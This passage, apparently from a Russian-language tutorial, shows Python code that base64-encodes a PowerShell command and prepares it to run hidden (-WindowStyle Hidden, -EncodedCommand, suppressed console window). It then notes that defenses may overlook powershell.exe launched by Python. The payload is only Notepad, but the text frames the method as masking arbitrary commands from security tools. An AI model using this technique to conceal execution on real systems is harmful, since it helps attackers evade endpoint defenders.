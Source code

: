     # Команда PowerShell для запуска Блокнота (в реальности может быть что угодно)
    ps_command_clear = "Start-Process notepad.exe"
    
    # Обфусцируем команду PowerShell для дополнительной маскировки
    ps_command_bytes = ps_command_clear.encode('utf-16le') # PowerShell часто использует UTF-16LE
    ps_command_b64 = base64.b64encode(ps_command_bytes).decode('ascii')

    # Формируем команду для запуска PowerShell с закодированной командой
    # -EncodedCommand принимает base64-строку
    # -NoP (NoProfile) и -NonI (NonInteractive) часто используются для скрытия окна
    # -WindowStyle Hidden полностью скрывает окно PowerShell
    full_powershell_execution = f'powershell.exe -NoProfile -NonInteractive -WindowStyle Hidden -EncodedCommand {ps_command_b64}'
    
    print(f"Выполняемая команда: {full_powershell_execution}")
    
    # Запуск
    # subprocess.call(full_powershell_execution, shell=True) 
    # Для Windows, чтобы не мелькало окно консоли Python:
    # startupinfo = subprocess.STARTUPINFO()
    # startupinfo.dwFlags |= subprocess.STARTF_USESHOWWINDOW
    # startupinfo.wShowWindow = subprocess.SW_HIDE
    # subprocess.call(full_powershell_execution, startupinfo=startupinfo)

    print("Команда PowerShell (предположительно) отправлена на выполнение.")
    ```
    Система защиты может не обратить внимания на запуск `powershell.exe` самим Python, если Python используется для легитимных скриптов администрирования.
